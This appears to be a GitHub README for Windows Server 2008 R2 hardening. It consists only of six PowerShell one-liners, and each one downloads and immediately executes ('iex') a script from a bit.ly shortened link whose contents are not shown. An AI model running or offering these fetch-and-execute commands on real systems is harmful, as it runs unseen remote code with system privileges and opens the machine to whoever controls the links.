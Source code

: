 # 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/36qZxOg')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2MPMyhq')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2FkU2op')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2ZQ0zkz')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2QjV76e')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2ZNxpCF')"
